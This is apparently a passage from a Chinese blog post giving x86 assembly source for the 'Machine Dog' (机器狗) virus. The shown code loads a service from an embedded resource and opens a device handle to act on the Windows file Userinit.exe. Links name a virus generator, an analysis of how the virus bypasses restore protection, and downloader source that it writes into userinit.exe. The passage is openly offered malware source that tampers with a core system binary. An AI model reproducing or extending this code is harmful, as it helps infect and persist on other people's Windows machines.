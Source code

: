 ZeroObject:    ; hObject
push  hDevice
call  CloseHandle
jmp  EXIT

CreateFileFailed:
mov  dwRet, offset ERR7

EXIT:
popa
mov  eax, dwRet
ret
DoMyWork endp

start proc
push  0    ; lpModuleName
call  GetModuleHandleA
mov  hModule, eax
call  LoadServiceFromRes ;load service from resource

push  100h    ; nSize
push  offset Dst  ; lpDst
push  offset aSystemrootSyst ; "%SystemRoot%\System32\Userinit.exe"
call  ExpandEnvironmentStringsA

push  offset Dst  ; lpFileName
call  DoMyWork
or  eax, eax
jnz  FAILED
push  offset OutputString ;
call  OutputDebugStringA
jmp  Exit

FAILED:    ; lpOutputString
push  eax
call  OutputDebugStringA

Exit:
call  QuitService
push  0    ; uExitCode
call  ExitProcess
start endp

end start

**相关文章：**

[机器狗病毒生成器](/blog/jiqigou-shengchengqi)

[穿透还原的工作原理分析（逆向工程）--机器狗](/blog/chuanhuanyuan-jiqigou)

[机器狗写入到userinit.exe文件的下载者源码](/blog/jiqigou-xieru-userinitexe-yuanma)

